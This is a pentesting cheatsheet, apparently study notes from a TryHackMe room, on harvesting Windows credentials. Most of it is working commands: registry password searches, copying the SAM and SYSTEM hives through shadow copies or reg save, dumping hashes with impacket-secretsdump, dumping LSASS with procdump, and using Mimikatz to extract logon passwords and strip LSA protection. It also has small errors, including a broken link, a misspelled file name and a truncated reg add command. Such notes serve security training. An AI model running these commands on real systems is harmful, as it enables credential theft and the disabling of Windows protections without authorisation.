 

Credentials Harvesting is a term for any technique used to gain access to user and system credentials.

## Credential Access

Credentials are stored insecurely in various locations in systems:

-   Clear-text files - **Unsecured Credentials: Credentials In Files** ([T1552.001](https://attack.mitre.org/techniques/T1552/001/)).
	-   Commands history	
	-   Configuration files (Web App, FTP files, etc.)
	-   Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)
	-   Backup files
	-   Shared files and folders
	-   Registry
		- `reg query HKLM /f password /t REG_SZ /s`
		- `reg query HKCU /f password /t REG_SZ /s`
	-   Source code
-   Database files
	- Third party databases
-   Memory - accessing memory is limited to administrator users who fully control the system
	-   Clear-text credentials
	-   Cached passwords
	-   AD Tickets
-   Password managers - misconfigurations and security flaws exist.
	- Built-in password managers (Windows)
	- Third-party: KeePass, 1Password, LastPass
-   Enterprise Vaults
-   Active Directory
	- Users descriptions: Admin sometimes leave password in the description for new employees
	- Group Policy SYSVOL: Leaked encryption keys, `Cpassword`
	- NTDS: `ndts.dit` file, on the domain controller
	- AD Attacks
-   Network Sniffing
	- Man-In-the-Middle attack against network protocols to steal NTLM hashes for later [[Pass-The-Hash]]

## Local Windows Credentials

- [[Keylogging]]
- `c:\Windows\System32\config\sam`, just copy and crack - encrypt [RC4](https://en.wikipedia.org/wiki/RC4) or [AES]https://en.wikipedia.org/wiki/Advanced_Encryption_Standard
- [[Metasploit]]'s [Meterpreter]([[Meterpreter-Commands]]) shell has the `hashdump` command
- Volume Shadow Copy Service - its [documentation](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service)
Microsoft Volume shadow copy service performs a volume backup while applications read/write on volumes. With administrator privileges use wmic to create a shadow volume copy.
```powershell
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows # verify the replication of the shadow volume
# copy should be \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
# copy the SAM database
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
# copy the decryption key
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
- Registry Hives
```powershell
# Dump the SAM database
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```
Use `secretsdump` from [[Impacket-Cheatsheet]]
```bash
impacket-secretsdump -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```


## Local Security Authority Subsystem Service (LSASS)

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory! Both non-protected and protected LSASS dumping discuss.

`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 0

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. Windows system stores credentials in the LSASS process to enable users to access network resources and services. With Administrative privileges we can dump the LSASS process memory. MITRE ATT&CK framework defines as [OS Credential Dumping LSASS Memory (T1003)](https://attack.mitre.org/techniques/T1003/001/). Detail below are various methods:

#### Unprotected LSASS Dump

- GUI :`Open 'Task Manager' -> Detail tabs -> Right-Click on lssas.exe -> Create Dump File`
- [Sysinternals Suite]([[Sysinternals-Hub]])'s [procdump]([[Sysinternals-Procdump]]) with `procdump.exe -accepteula -ma lsass.exe C:\administrator\desktop\lsass_dump`

#### Extracting Credentials from LSASS Dump & LSA Protection Disabling 

[[Mimikatz-Cheatsheet]]

```powershell
privilege::debug
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```

## Windows Credential Manager

**Requires GUI and password to reveal passwords stored**: `Control Panel -> User Accounts Credential Manager -> $Category-Type` . Unless powershell or csharp tool exists:
[[Nishang-Helpsheet]] - [Nishang Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)

Credential Manager is Windows Features that stores credentials. These Authentication details are stored on the user's folder and are not shared among Windows user accounts and are cache in memory. Caterogies of Credentials stored by Windows Credential Manager:

Credential Categories | Contains
--- | ---
Web credentials  | Authentication details stored in Internet browsers or other applications.
Windows credentials |  Windows authentication details, such as NTLM or Kerberos.
Generic credentials |  Basic authentication details, such as clear-text usernames and passwords.
Certificate-based credentials |  Authenticated details based on certifications.

```powershell
vaultcmd /list
# Web credentials, Windows credentials, Generic credentials. Certificate-based credentials
vaultcmd /listproperties:"$category" 
# Will display the number, location in AppData and protection method
vaultcmd /listcreds:"$category" # information about stored credentials
```


## References

[Tryhackme Credential Harvesting](https://tryhackme.com/room/credharvesting)